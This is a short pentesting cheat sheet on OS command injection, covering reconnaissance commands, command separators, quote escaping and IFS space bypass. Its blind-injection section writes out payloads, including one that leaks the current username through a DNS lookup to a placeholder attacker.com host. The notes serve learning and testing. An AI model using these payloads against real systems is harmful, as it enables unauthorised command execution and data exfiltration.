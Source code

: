 # OS Command Injection Overview

## Introduction

OS Command Injection is a security vulnerability that occurs when an application passes unsafe user-supplied data to a system shell. This can allow attackers to execute arbitrary commands on the host operating system under the privileges of the vulnerable application.

## Common Commands

| Purpose                | Linux        | Windows        |
|------------------------|--------------|----------------|
| Name of current user   | `whoami`     | `whoami`       |
| Operating system       | `uname -a`   | `ver`          |
| Network configuration  | `ifconfig`   | `ipconfig /all`|
| Network connections    | `netstat -an`| `netstat -an`  |
| Running processes      | `ps -ef`     | `tasklist`     |

## Exploring Vulnerabilities

- **Parameter Manipulation**: Altering parameters in an application might trigger errors indicating that a command is being executed in the background. Use special characters like `|` or `&` to append additional commands.

- **Blind OS Command Injection**:
  - **Time Delays**: Use commands like `ping` to create a delay, indicating a command execution.
    - Example: `& ping -c 10 127.0.0.1 &`
  - **Output Redirection**: Redirect the output of commands to a directory that you can access.
    - Example: `& whoami > /var/www/static/whoami.txt &`
  - **DNS Lookups**: Use `nslookup` to see if DNS queries can be made from the server.
    - Example: `& nslookup $(whoami).attacker.com &`

## Command Separators

Command separators can vary based on the operating system and can be used to chain multiple commands:

- **Universal**:
  - `&`, `&&`, `|`, `||`
- **Unix-specific**:
  - `;`, `\n` (newline)
  - Inline execution: `` `command` ``, `$ (command)`

## Escaping Command Contexts

When input appears within quotation marks in the original command, you must first terminate the quoted context (`"`, `'`) before injecting new commands.

## Special Characters and Encodings

- **Internal Field Separator (IFS)**: In scenarios where spaces are filtered, the IFS variable can be used as a substitute for spaces.
  - Example: Use `cat${IFS}*.txt` to concatenate and display `.txt` files when spaces are blocked.
